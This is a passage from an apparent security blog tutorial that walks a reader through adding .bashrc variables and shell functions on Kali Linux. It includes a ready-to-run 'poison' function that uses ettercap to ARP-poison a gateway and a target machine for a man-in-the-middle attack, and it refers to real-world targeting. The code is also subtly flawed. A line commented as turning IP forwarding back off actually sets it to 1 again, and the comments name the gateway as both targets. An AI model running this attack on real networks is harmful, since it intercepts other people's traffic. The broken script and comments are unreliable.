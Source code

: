 Note: If you choose to modify this file in something like Mousepad, then all you need to do is make it visible in the file manager. Click on the file manager, click on the toggle view drop-down in the upper right-hand corner, then click "Show hidden files." Once you have done that, the file labeled .bashrc should show up and you can edit it.

We will start by creating a series of variables at the top of the document. Commands often require us to type in the same set of commands over and over again. Make sure the first couple of lines include the following. I will use my own local IP's but you should use yours.

{% highlight ruby %}
targetIP="192.168.1.100"
myIP="192.168.1.4"
gatewayIP="192.168.1.1"
adp="eth0"
{% endhighlight %}

If you don't know how to find all this information, then we will go through it step by step.

<b>targetIP:</b> In your target computer (which I assume is windows), type in ipconfig. Look for the line that says IPv4 Address. If you are in a real world scenario, then you will need to obtain the IP by gathering more information on all computers on the network. For more information on how to do that, set up arp-scan and nmap using my [previous article.][first-hack-pt2]

<b>myIP:</b> This is the IP for your Kali Linux machine. Type ifconfig and look for the 192.168 address.

![image tooltip](/blog/images/wifi/ifconfig.JPG)

<b>gatewayIP:</b> Normally it is something like 192.168.1.1. If you are using your Windows machine, type {% highlight ruby %}ipconfig{% endhighlight %} again and look for the line titled Default Gateway. If you want to know how to do this in Linux, type {% highlight ruby %}ip r{% endhighlight %}

<b>adp:</b> Look at the ifconfig screenshot again. I highlighted eth0. This is my adapter name. The name is typically eth0 but you should double check.

Now that we have finished configuring the variables, we are going to add in some function commands. What are the functions? Let's break it down. The shortcut always will appear in the following format. function short() { long; }. The short is the shortened version of the actual command. The command itself is in between the { } space. Comments about the command referenced via #

On a new line, add the following

{% highlight ruby %}
function update() { sudo apt-get update && sudo apt-get -y upgrade; }
#This keeps your system up to date. Always run this before experimenting.
{% endhighlight %}

{% highlight ruby %}
function poison ()
{
sudo sysctl -w net.ipv4.ip_forward=1;
sudo ettercap -T -M arp:remote /$gatewayIP// /$targetIP//;
sudo sysctl -w net.ipv4.ip_forward=1;
}
#sysctl: used to modify built in system varibles.
#-w: used to specify a change in sysctl itself.
#net.ipv4.ip_forward=1: Enable IP forwarding which allows our network monitoring tool to forward all traffic to a different device.

#ettercap: A tool that is used to monitor traffic
#-T: Text only interface. As opposed to graphical
#-M arp:remote: Tells ettercap to perform a "man in the middle attack" as discussed earlier in the article. We will tell it to use the arp attack to collect inbound and outbound traffic. As opposed to arp:oneway which only poisons the outbound traffic from the target.
#/$gatewayIP// The first target. Redirecting all traffic from target1 to target2
#/$gatewayIP// The second target.

#sysctl: Same as the first but turns IP forwarding back off.
{% endhighlight %}


[lets-encrypt]: https://letsencrypt.org
[first-hack-pt2]: https://danielloosec.github.io/blog/jekyll/update/2018/04/16/MS08_067_Part_2.html
[part-2]: https://danielloosec.github.io/blog/jekyll/update/2018/08/29/PublicWifiMyths_Part_2.html